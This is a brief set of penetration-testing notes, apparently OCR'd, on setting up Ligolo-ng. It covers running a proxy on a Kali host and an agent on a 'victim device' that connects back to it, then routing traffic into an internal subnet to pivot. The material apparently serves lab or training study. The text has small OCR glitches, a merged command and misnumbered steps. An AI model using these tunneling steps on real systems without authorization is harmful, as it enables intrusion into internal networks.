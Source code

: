 
	1. Setting up Ligolo-ng
		
		○ ``` sudo ip tuntap add user $USER mode tun ligolo ```
		○ ``` sudo ip link setligolo up ```

	2. Running proxy on Kali device:

		○ ``` ./proxy -selfcert ``` - Server

	3. Running agent on Victim Device:

		○ ``` ./agent -retry -ignore-cert -connect 192.168.45.232:11601 ``` connect to kali server

	4. Checking session in proxy:

		○ ``` session ``` - Prints session, use 1 if 1

	1. Checking interfaces using ifconfig:

		○ ``` ifconfig ``` - Note the IP address of the internal interface

	6. Adding route in Kali to tunnel:

		○ ``` sudo ip route add 10.4.219.0/24 dev ligolo ``` - After tunneling we can use the interface ip to communicate

	7. Starting tunneling:

		○ ``` start ``` - in proxy
